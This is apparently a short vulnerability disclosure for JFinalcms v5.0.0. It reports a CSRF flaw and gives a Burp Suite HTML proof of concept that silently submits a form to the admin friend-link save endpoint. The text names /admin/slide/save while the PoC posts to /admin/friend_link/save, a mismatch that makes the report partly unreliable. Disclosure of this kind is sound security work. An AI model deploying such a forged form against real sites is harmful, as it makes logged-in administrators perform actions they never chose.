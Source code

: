 ![图片](https://github.com/cui2shark/cms/assets/52313275/9ab7bced-3553-4e9a-b86e-9a0176ef7bee)target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/slide/save

![图片](https://github.com/cui2shark/cms/assets/52313275/9f5cbaca-0013-4453-8c98-8eb250f8ba98)

create poc

![图片](https://github.com/cui2shark/cms/assets/52313275/02ce7b20-04af-45d9-8096-507426d6fae2)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/friend_link/save" method="POST">
      <input type="hidden" name="gid" value="" />
      <input type="hidden" name="name" value="cs" />
      <input type="hidden" name="logo" value="" />
      <input type="hidden" name="file" value="" />
      <input type="hidden" name="url" value="cs" />
      <input type="hidden" name="sort" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

successed

![图片](https://github.com/cui2shark/cms/assets/52313275/c56cb37e-2dc1-4a5a-b966-575fc1436984)
